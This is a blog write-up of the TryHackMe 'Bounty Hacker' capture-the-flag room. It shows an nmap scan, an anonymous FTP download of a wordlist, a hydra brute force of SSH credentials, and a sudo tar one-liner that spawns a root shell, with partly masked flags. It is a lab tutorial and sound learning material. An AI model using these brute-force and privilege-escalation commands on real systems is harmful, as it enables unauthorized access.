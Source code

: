 +++ 
categories = ["Hugo"] 
date = "2020-08-27" 
description = "Bounty Hacker - TryHackMe Writeup"

featuredalt = "" 
featuredpath = "date" 
linktitle = "" 
title = "Bounty Hacker - TryHackMe Writeup" 
slug = "Bounty Hacker - TryHackMe Writeup" 
type = "post" 
+++




[![Bounty Hacker - TryHackMe](bounty_hacker.jpeg](https://tryhackme.com/room/cowboyhacker)


Welcome to my WriteUp. Ok So our journy starts from question 3 but before every question we need to enumerate the mechine. So Let's do it with **nmap**

## Service enumeration

```
# nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 02:25 +06
Nmap scan report for 10.10.196.2
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.67.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.50 seconds

```

Here we have port 21,22,80 open and we can see ftp have anonymous login allowed so let's do it.
```
Username : Anonymous
Password : Anonymous # In this mechine we don't need password to login.
```

## FTP enumeration

```
# ftp $ip
Connected to 10.10.196.2.
220 (vsFTPd 3.0.3)
Name (10.10.196.2:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

Here we have 2 text file. Grab it on our computer using mget *
If You want to download file one by one then you can simply use **get filename.ext**

```
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (350.0884 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (220.6188 kB/s)
ftp> exit
221 Goodbye.
```
Ok So now we have two text file. From this two we will get our 3rd question answer.
If we look at question number 4 it say's **What service can you bruteforce with the text file found?** The text file locks.txt looks like a dictionary file we can bruteforce with this file on ssh using hydra.


## Bruteforce

**-l (Username)**
**-P (Password file)**

```
hydra -l lin -P ./locks.txt ssh://$ip 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 02:31:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.196.2:22/
[22][ssh] host: $ip   login: lin   password: Re***4g***yn***at*
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-28 02:32:03

```

Now we have ssh username and password so let's login on ssh.

```
# ssh lin@$ip

lin@10.10.196.2's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)


lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{C****_SyN******}
```

Here we got our **User.txt**


## Privilege Escalation


Now we have to get root.txt

If you try :
```
lin@bountyhacker:~/Desktop$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```
So we have to get root access.
Start with ** sudo -l **
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```


We can run root using ** tar **
Now we need to find Root Escalation for tar. I always use gtfobins.github.io for this type of escalation.
If we search tar on GTFOBINS then we will found a line of code in **Sudo Section**
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

You need to copy this code and pest on your bountyhacker ssh shell

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{8***Y_h****r}
```


**Congratulations** you just complete Bounty Hacker from TryHackMe.
Thank You and see you on next writeup.
















